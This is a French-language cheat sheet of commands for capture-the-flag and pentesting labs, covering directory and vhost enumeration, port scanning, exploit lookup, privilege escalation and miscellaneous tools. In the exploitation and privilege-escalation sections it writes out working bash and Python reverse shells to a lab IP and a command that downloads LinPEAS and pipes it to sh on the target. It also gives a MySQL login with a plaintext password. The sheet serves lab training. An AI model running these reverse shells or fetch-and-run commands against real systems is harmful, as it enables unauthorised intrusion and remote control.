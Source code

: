 
---
title: "Mémo Commandes CTF"
date: 2025-10-08
draft: false
tags: ["pentesting", "cheatsheet"]
---

## 📁 Infrastructure
```
ctf/
├── 02_challenges/
└── 03_tools/
    └── SecLists/
```

---

## 🔍 Reconnaissance

### Gobuster - Énumération de répertoires
```bash
# Recherche de dossiers et fichiers web
gobuster dir -w directory-list-2.3-small.txt -u http://url/ -x php,html,js
```
- `dir` : mode énumération de répertoires
- `-w` : wordlist à utiliser
- `-u` : URL cible
- `-x` : extensions de fichiers à tester

### Gobuster - Énumération de vhosts
```bash
# Recherche de sous-domaines virtuels
gobuster vhost -w ~/ctf/03_tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
               -u http://url \
               --append-domain
```
- `vhost` : mode virtual host
- `--append-domain` : ajoute le domaine de base aux sous-domaines testés

### Nmap - Scan de ports
```bash
# Scan complet avec détection de services
nmap -A url

# Scan avancé sans ping
nmap -Pn -sV -sS -sC -O url
```
- `-A` : détection OS, version, scripts, traceroute
- `-Pn` : pas de ping (utile si firewall)
- `-sV` : détection de version des services
- `-sS` : SYN scan (furtif)
- `-sC` : scripts par défaut
- `-O` : détection de l'OS

---

## 💣 Exploitation

### Netcat - Listener
```bash
# Écoute pour reverse shell
nc -lvnp 4444
```
- `-l` : mode écoute (listen)
- `-v` : mode verbeux
- `-n` : pas de résolution DNS
- `-p` : port d'écoute

### Reverse Shell - Bash
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.115/4444 0>&1"
```
- `-i` : shell interactif
- `>&` : redirige stdout et stderr
- `0>&1` : redirige stdin vers stdout

### Reverse Shell - Python
```bash
export RHOST="10.10.14.115";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
- `pty.spawn()` : spawne un pseudo-terminal
- `os.dup2()` : duplique les descripteurs de fichiers

### Stabilisation du Shell

**Méthode Python :**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Méthode Script :**
```bash
script /dev/null -c bash
```
- `script` : enregistre une session terminal (ici vers /dev/null)

### SearchSploit - Recherche d'exploits

**Installation :**
```bash
sudo git clone https://gitlab.com/exploit-database/exploitdb.git
sudo ln -sf /home/wanako/ctf/03_tools/exploitdb/searchsploit /usr/local/bin/searchsploit
```

**Utilisation :**
```bash
searchsploit Apache 2.x
```
📖 [Guide SearchSploit](https://medium.com/@redfanatic7/discover-exploits-easily-and-quickly-with-searchsploit-4f77da58fe42)

---

## ⬆️ Escalade de Privilèges

### Recherche de fichiers par groupe
```bash
find / -group sysadm 2>/dev/null
```
- `-group` : filtre par groupe
- `2>/dev/null` : masque les erreurs

### Recherche de binaires SUID
```bash
find / -type f -perm -4000 -user root 2>/dev/null
```
- `-type f` : uniquement les fichiers
- `-perm -4000` : bit SUID activé
- `-user root` : appartenant à root

### LinPEAS - Audit automatisé

**Sur ta machine (serveur) :**
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
python -m http.server 8080
```

**Sur la cible :**
```bash
curl http://10.10.14.115:8080/linpeas.sh | sh
```

---

## 🛠️ Outils Divers

### Docker
```bash
# Build une image
docker build -t docker-image .

# Run avec volume monté
docker run -it -v $(pwd):/code docker-image
```
- `-t` : nom du tag
- `-v` : monte un volume (partage de fichiers)

### Extraction TAR
```bash
tar xvf backrest_backup.tar.gz
```
- `x` : extract
- `v` : verbose
- `f` : file

### SSH Port Forwarding
```bash
ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74
```
- `-L` : forward local
- `9898:127.0.0.1:9898` : port_local:ip_distant:port_distant

### Recherche de fichiers
```bash
find / -name "hibernate.cfg.xml" 2>/dev/null
```
- `-name` : recherche par nom exact

### MySQL
```bash
mysql -u roundcube -pRCDBPass2025 roundcube -e "select * from users"
```
- `-u` : username
- `-p` : password (collé sans espace)
- `-e` : exécute une commande SQL

---

## 📚 Ressources

- **SecLists** : `~/ctf/03_tools/SecLists/`
- **ExploitDB** : `~/ctf/03_tools/exploitdb/`

